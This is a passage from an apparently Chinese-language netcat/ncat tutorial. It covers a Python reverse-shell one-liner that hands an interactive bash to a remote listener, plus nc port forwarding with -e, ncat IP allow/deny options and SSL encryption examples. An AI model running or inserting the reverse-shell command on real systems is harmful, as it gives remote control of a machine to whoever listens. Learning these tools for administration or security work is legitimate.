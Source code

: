     * Python实现

        ```sh
        A: nc -l 333
        B: python -c "import os, socket, subprocess; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect(('<IP-A>', 333)); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); p = subprocess.call(['/bin/bash', '-i']);"
        ```

## 连接转发/端口转发

```sh
A: nc -l 333
B: nc -l 333 -e '/usr/bin/nc <IP-A> 333'
C: nc -l <IP-B> 333

# 编辑脚本/root/B_to_A_333.sh, 内容为 /usr/bin/nc <IP-A> 333
# 这样的话,  以下两条中方式都可以实现以上的同等效果
B: nc -l 333 -c '/root/B_to_A_333.sh'
B: nc -l 333 -e '/bin/bash /root/B_to_A_333.sh'
```

## 关于访问控制

`ncat` 提供 `--allow`, `--allowfile`, `--deny`, `--denyfile` 可用于控制IP访问(注意是 `ncat`, CentOS 6版本下的 `nc` 不具备, 需要安装 `ncat` 命令)

```sh
ncat --allow 192.168.161.1 -l 3333
```

## 加密传输

`ncat` 提供 `--ssl`, `--ssl-verify`, `--ssl-cert`, `--ssl-key` 等选项用于加密传输


```text
--ssl           加密连接
--ssl-verify    客户端下--ssl-verify类似--ssl, 但会验证服务器证书; 
                (默认的信任证书列表: ca-bundle.crt)
                不验证吊销的证书, 对于服务器模式无意义
--ssl-cert certfile.pem   指定PEM编码证书文件, 和 --ssl-key 结合使用
--ssl-key keyfile.pem     指定证书文件对应的私钥
--ssl-trustfile cert.pem  设置一系列受信任的证书
                          若不指定--ssl-verify, 则此选项无效
```

示例:

```sh
# 监听 192.168.161.2:3333
A1: ncat --ssl -l 192.168.161.2 3333
A2: ncat --ssl --ssl-cert bundle.crt --ssl-key server.key -l 192.168.161.2 3333 

# 客户端连接
B1->A1: ncat -nv --ssl 192.168.161.2 3333
B2->A2: ncat -nv --ssl --ssl-cert bundle.crt --ssl-key server.key 192.168.161.2 3333 
```
